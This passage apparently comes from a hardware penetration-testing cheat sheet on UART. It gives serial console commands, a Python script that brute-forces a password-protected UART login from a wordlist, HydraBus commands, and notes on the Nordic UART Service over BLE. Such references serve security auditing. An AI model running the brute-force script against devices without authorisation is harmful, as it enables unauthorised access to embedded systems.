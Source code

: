 * Command line tools to interact with UART:

    ```powershell
    cu -l /dev/ttyUSB0 -s 115200
    microcom -d -s 115200 -p /dev/ttyUSB0
    minicom -b 115200 -o -D /dev/ttyUSB0 # To exit GNU screen, type Control-A k
    screen /dev/ttyUSB0 115200
    ```

* Brute force a password protected UART:

    ```python
    import serial, time
    port = "/dev/ttyUSB0"
    baud = 115200
    s = serial.Serial(port)
    s.baudrate = baud

    with open('/home/audit/Documents/IOT/passwords.lst', 'r') as f:
        lines = f.readlines()

        for pwd in lines:
            a = s.write(pwd.strip())
            print("Pwd: {}".format(pwd.strip()))
            print("Sent {} bytes".format(a))
            print("Result: {}".format(s.readline()))
            time.sleep(10)
    ```

* Interact with HydraBus

    ```ps1
    uart1> scan
    uart1> show
    uart1> speed 38400
    uart1> bridge
    ```


## UART over BLE

It’s an emulation of serial port over BLE. The UUID of the Nordic UART Service is `6E400001-B5A3-F393-E0A9-E50E24DCCA9E`. This service exposes two characteristics: one for transmitting and one for receiving.

* **RX Characteristic (UUID: 6E400002-B5A3-F393-E0A9-E50E24DCCA9E)** :
	* The peer can send data to the device by writing to the RX Characteristic of the service. ATT Write Request or ATT Write Command can be used. The received data is sent on the UART interface.
* **TX Characteristic (UUID: 6E400003-B5A3-F393-E0A9-E50E24DCCA9E)** :
	* If the peer has enabled notifications for the TX Characteristic, the application can send data to the peer as notifications. The application will transmit all data received over UART as notifications.


### Examples
* [nRF UART 2.0 - Nordic Semiconductor ASA](https://play.google.com/store/apps/details?id=com.nordicsemi.nrfUARTv2)
* [UART/Serial Port Emulation over BLE](https://infocenter.nordicsemi.com/index.jsp?topic=%2Fcom.nordic.infocenter.sdk5.v14.0.0%2Fble_sdk_app_nus_eval.html)
* [UART Over Bluetooth Low Energy](https://thejeshgn.com/2016/10/01/uart-over-bluetooth-low-energy/)
* [https://makecode.microbit.org/v1/98535-28913-33692-07418](https://makecode.microbit.org/v1/98535-28913-33692-07418)
* [Using the micro:bit Bluetooth Low Energy UART (serial over Bluetooth)](https://support.microbit.org/support/solutions/articles/19000062330-using-the-micro-bit-bluetooth-low-energy-uart-serial-over-bluetooth-)
